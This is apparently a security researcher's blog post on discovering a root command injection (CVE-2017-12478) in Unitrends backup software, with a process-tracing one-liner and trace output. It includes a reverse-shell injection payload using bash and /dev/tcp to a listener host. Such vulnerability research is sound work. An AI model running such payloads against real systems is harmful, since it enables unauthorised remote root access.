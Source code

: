 ```yaml
---
layout: post
title:  "CVE-2017-12478 - Unitrends 9.x api_storage exploit"
date:   2018-01-29 00:00:01
categories: exploits
---
```


Unitrends is an enterprise backup and recovery software suite.  Downloading the free trial you get virtualized appliance which has their custom brewed PHP web app.  There are many ways to start a security assessment but we will show what can be accomplished by taking a minimalistic and cursory look at an application to rapidly develop a remote root exploit.  We will not be leveraging any security specific tools or special skills like reverse engineering but will demonstrate the power of basic and common utilities. This does require a shell on the box to leverage a more white box approach. In our case with UEB things are made easy for us since the vendor provides an OVA of the virtual appliance.

We will take a quick look through the web app and look for interesting functionality.  I like strolling through configuration and settings menus in a quick pass for low hanging fruit.  Starting with functionality that commonly results in user input being sent as input to local binaries is a great first stop.  Standard examples of this is are ping test pages where the user provides a host to ping, SNMP configuration, console password resets and many other system configuration actions.  

Let's think about the ping connectivity test example.  When implemented in web apps these pages are concatenating user input with the ping binary.  This is a great opportunity to discover remote command execution using shell escaping techniques. The happy and non-nefarious path may result in this being executed ```ping -c 2 127.0.0.1```. A nefarious user could craft their input to be a reverse shell payload ```; bash -i >& /dev/tcp/127.0.0.1/4444 0>&1```. In this simple example without any attempts to filter user input would result in the system executing ping ```-c 2 ; bash -i >& /dev/tcp/192.168.0.52/4444 0>&1```. Which will result with the ping command failing but the subsequent reverse shell payload will execute.

Let's dive into the app and overview the manual process for hunting this specific type of vulnerability. In addition interacting with the web app via a web browser we want to SSH into the appliance so we can conduct input tracing exercises. Ideally we will have root level shell. We are going to use our shell to identify where the value on a user input parameter in injected into OS level commands.  

There are many ways to do this, I have used strace quite a bit in the past. The shortcoming I have found here is that code execution is often tough to follow. Additionally it typically limits you to tracing only httpd pid and you will miss a lot of code injection including the example bug here.  Additionally there are more utilities and purpose built binaries for this sort of thing but have come up with my own hacky yet portable and effective one liner.
```while true; do ps -eaF;  done | grep -i [A]AAA ```

What we are doing here is running ps repeatedly and grep'ng for a string.  This is the same string we will use in every input parameter of the webapp. Let's start, less than 5 minutes later we see good root level command injection candidates!

{% highlight shell  %}
[root@VMware-UB ~]# while true; do ps -eaF;  done | grep -i [A]]AAA
root       648   644  0 27557  1416   0 06:44 ?        00:00:00 sh -c PATH=$PATH:/usr/bp/bin cmc_nas connect aaaaa source AAAAAAAAAAA 2049 nfs aaaaaa aaaa 'zzzzz' >/tmp/REx_yXsMlE 2>/tmp/REx_KsSyfR
root       649   648  0 27623  1768   1 06:44 ?        00:00:00 /bin/sh /usr/bp/bin/cmc_nas connect aaaaa source AAAAAAAAAAA 2049 nfs aaaaaa aaaa zzzzz
root       648   644  0 27557  1416   0 06:44 ?        00:00:00 sh -c PATH=$PATH:/usr/bp/bin cmc_nas connect aaaaa source AAAAAAAAAAA 2049 nfs aaaaaa aaaa 'zzzzz' >/tmp/REx_yXsMlE 2>/tmp/REx_KsSyfR
root       649   648  0 27623  1768   1 06:44 ?        00:00:00 /bin/sh /usr/bp/bin/cmc_nas connect aaaaa source AAAAAAAAAAA 2049 nfs aaaaaa aaaa zzzzz
root       656   649  0 26860   996   1 06:44 ?        00:00:00 ping -c1 -w 1 AAAAAAAAAAA
root       648   644  0 27557  1416   0 06:44 ?        00:00:00 sh -c PATH=$PATH:/usr/bp/bin cmc_nas connect aaaaa source AAAAAAAAAAA 2049 nfs aaaaaa aaaa 'zzzzz' >/tmp/REx_yXsMlE 2>/tmp/REx_KsSyfR
root       649   648  0 27623  1768   1 06:44 ?        00:00:00 /bin/sh /usr/bp/bin/cmc_nas connect aaaaa source AAAAAAAAAAA 2049 nfs aaaaaa aaaa zzzzz
root       656   649  0 26860   996   1 06:44 ?        00:00:00 ping -c1 -w 1 AAAAAAAAAAA
```